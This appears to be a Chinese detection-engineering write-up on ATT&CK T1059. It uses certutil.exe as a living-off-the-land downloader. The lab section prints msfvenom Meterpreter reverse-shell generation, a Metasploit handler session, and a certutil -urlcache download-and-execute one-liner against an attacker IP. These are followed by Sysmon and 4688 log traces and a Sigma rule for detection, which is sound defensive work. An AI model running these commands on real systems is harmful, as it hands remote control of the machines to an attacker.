 # T1059-Win-使用Certutil.exe执行Payload（白名单）

## 来自ATT&CK的描述

暂无合适分类，置放在此TID中

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

Certutil.exe是作为证书服务的一部分安装的命令行程序。 我们可以使用此工具在目标计算机上执行恶意EXE文件，并获取meterpreter会话。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

Windows 安全日志/sysmon日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon）

### 攻击分析

#### 生成payload.exe

通过msfvenom 生成恶意可执行文件，并使用start multi/handler获取目标计算机反向shell会话。

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.126.146 lport=1234 -f exe > shell.exe
```

#### 执行监听

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:1234

```

#### 开启小型http服务

```bash
root@12306Br0:~# python2 -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

#### 靶机执行payload

```dos
certutil.exe -urlcache -split -f http://192.168.126.146:1234/shell.exe shell.exe & shell.exe
```

#### 反弹shell

```bash
[*] Started reverse TCP handler on 192.168.126.146:1234
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:1234 -> 192.168.126.149:49172) at 2020-04-17 15:59:50 +0800
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\certutil.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: CertUtil.exe
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: CertUtil.exe
CommandLine: certutil.exe  -urlcache -split -f http://192.168.126.146:1234/shell.exe shell.exe

#win7安全日志
EventID：4688
进程信息:
新进程 ID:0xbcc
新进程名: C:\Windows\System32\certutil.exe

#windows server 2008(不含2008)以上系统可以配置审核进程创建策略，达到记录命令行参数的效果。通过命令行参数进行监控分析。
```

## 检测规则/思路

### sigma规则

```yml
title: 可疑的Certutil命令
status: experimental
description: 使用诸如“decode”子命令之类的子命令检测可疑的Microsoft certutil执行，该子命令有时用于使用内置的certutil实用程序
references:
    - https://twitter.com/JohnLaTwC/status/835149808817991680
    - https://twitter.com/subTee/status/888102593838362624
    - https://twitter.com/subTee/status/888071631528235010
    - https://blogs.technet.microsoft.com/pki/2006/11/30/basic-crl-checking-with-certutil/
    - https://www.trustedsec.com/2017/07/new-tool-release-nps_payload/
    - https://twitter.com/egre55/status/1087685529016193025
    - https://lolbas-project.github.io/lolbas/Binaries/Certutil/
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine:
            - '* -decode *'
            - '* /decode *'
            - '* -decodehex *'
            - '* /decodehex *'
            - '* -urlcache *'
            - '* /urlcache *'
            - '* -verifyctl *'
            - '* /verifyctl *'
            - '* -encode *'
            - '* /encode *'
            - '*certutil* -URL*'
            - '*certutil* /URL*'
            - '*certutil* -ping*'
            - '*certutil* /ping*'
    condition: selection
fields:
    - CommandLine
    - ParentCommandLine
tags:
    - attack.defense_evasion
    - attack.t1140
    - attack.t1105
    - attack.t1059
    - attack.s0189
    - attack.g0007
falsepositives:
    - False positives depend on scripts and administrative tools used in the monitored environment
level: high

```

### 建议

根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1059

<https://attack.mitre.org/techniques/T1059/>
